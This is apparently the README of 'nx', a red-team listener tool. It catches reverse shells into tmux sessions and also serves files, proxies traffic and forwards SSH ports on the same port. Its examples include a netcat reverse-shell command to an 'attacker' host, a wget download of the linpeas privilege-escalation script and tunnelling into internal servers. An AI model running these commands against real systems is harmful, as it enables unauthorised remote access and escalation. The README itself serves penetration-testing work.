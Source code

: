 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

All-in-One:
- reverse shell
- http server
- http/s proxy
- port-forwarding-only ssh server

## Prerequisites

- tmux - required for session/window management
- socat - required for TTY handling and keystroke forwarding

## Installation

### From source
```bash
git clone https://github.com/audibleblink/nx
cd nx
go build -o nx .
./nx --install-plugins  # Install bundled plugins
```

### Using go install
```bash
go install github.com/audibleblink/nx@latest
nx --install-plugins  # Install bundled plugins
```

The `--install-plugins` flag copies bundled plugins (like `auto.sh`) to `~/.config/nx/plugins/`. This only needs to be run once after installation.

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there

```
Usage:
  nx [OPTIONS]

Application Options:
      --auto           Attempt to auto-upgrade to a tty (deprecated: use --exec auto)
      --exec=          Execute plugin script on connection
      --install-plugins Install bundled plugins to config directory
  -i, --host=      Interface address on which to bind (default: 0.0.0.0)
  -p, --port=      Port on which to bind (default: 8443)
  -t, --target=    Tmux session name (default: nx)
  -v, --verbose    Debug logging
      --sleep=     adjust if --auto is failing (default: 500ms)
  -d, --serve-dir= Directory to serve files from over HTTP
  -s, --ssh-pass=  SSH password (empty = no auth)
```

## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP, proxy network requests, and SSH tunneling on the same port as reverse shell connections
- **SSH tunneling**: Support for local (-L) and remote (-R) port forwarding with optional password authentication
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell scripts stored in `~/.config/nx/plugins/`.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
2. Make it executable: `chmod +x ~/.config/nx/plugins/<name>.sh`
3. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple shell scripts with these features:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux `send-keys` commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script
- install with `nx --install-plugins`

## Protocol Multiplexing

nx can serve files over HTTP, act as an HTTP proxy, and provide SSH tunneling on the same port as shell connections. This allows you to serve files, create SSH tunnels, provide internet to air-gapped machines, and catch shells over a single port.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# Shell connections still work normally
nc -e /bin/bash attacker 8443

# From target machine - download files
wget http://attacker:8443/linpeas.sh

```


## SSH Tunneling

nx supports SSH tunneling for port forwarding without providing shell access.

### SSH Usage Examples

```bash
# Start nx with SSH tunneling (no password)
nx -p 8443 -v

# Start nx with SSH password authentication
nx -p 8443 -s mypassword -v

# From client - Local port forwarding (-L)
ssh -L 8080:internal-server:80 -N user@attacker -p 8443

# From client - Remote port forwarding (-R)  
ssh -R 9090:localhost:22 -N user@attacker -p 8443
```


## How?

unix domain sockets mannn


## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [x] ~~super simple chisel-light functionality~~ ✅ **DONE**: SSH tunneling with local/remote port forwarding
- [x] facilitate installing plugins dir to xdg
- [ ] handle stdio with the socket directly with `nx`, eliminating the need for `socat`
